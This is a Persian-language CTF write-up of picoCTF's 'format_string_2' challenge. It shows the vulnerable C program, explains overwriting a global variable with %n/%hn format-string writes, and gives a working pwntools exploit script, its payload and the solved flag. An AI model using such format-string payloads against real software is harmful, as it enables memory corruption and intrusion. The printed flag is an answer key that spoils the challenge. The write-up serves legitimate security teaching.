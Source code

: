 ```yaml
---
tags:
  - PWN
---
```

# format_string_2

درود و صد درود !
 با یه چالش جذاب اومدیم از 
 [picoCTF](https://play.picoctf.org/practice/challenge/448?category=6&difficulty=2&page=1) 


این از سورس.
``` cpp
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

مشخصه که ما باید مقدار $sus$ رو به مقدار $0x67616c66$ تبدیل کنیم.
با استفاده از ابزار checksec می‌توان متوجه شد که PIE غیرفعال است و در نتیجه آدرس ها در برنامه ثابت هستند.

برای تغییر مقدار $sus$ می‌تونیم از استرینگ فرمت ها استفاده کنیم . 
فرمت استرینگ $ %n $ را استفاده می‌کنیم که کافی است مقدار $0x67616c66$ کاراکتر نوشته باشیم و سپس با استفاده از $%n$ آن ها را در $sus$ بریزیم. با استفاده از gdb می‌توان پیدا کرد که آدرس متغییر $sus$ برابر است با $404060$ و همچنین در خانه $18$ استک هم وجود دارد.

چون مقدار $0x67616c66$ زیاد است به جای نوشتن این حجم کاراکتر و سپس استفاده کردن $%n$، آن را به دو بخش تقسیم می‌کنیم سپس با $%hn$ آن را در حافظه می‌نویسیم.

 کد زیر مرحله به مرحله کارهای ذکر شده را با یک اسکریپت نشان می‌دهد:
```py
from pwn import *

chall = remote("rhea.picoctf.net", 56778)

sus_1 = bytes.fromhex("404062")[::-1] + b'\x00' * 5  # (8 bytes)
sus_2 = bytes.fromhex("404060")[::-1] + b'\x00' * 5  # (8 bytes)

val_1 = int("6761", 16)
val_2 = int("6c66", 16)

payload = b'%' + str(val_1).encode() + b'c%18$hn' + b'%' + str(val_2 - val_1).encode() + b'c%19$hn'
payload += ((8 - len(payload) % 8) % 8) * b'\x00'  # (Fit the frame)
payload += sus_1 + sus_2

chall.sendlineafter(b'?\n', payload)
chall.interactive()

```

فلگ پیدا شد !!!

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}`</div>

--- 

!!! نویسنده
    [sw33tw3as3l](https://github.com/sw33tw3as3l)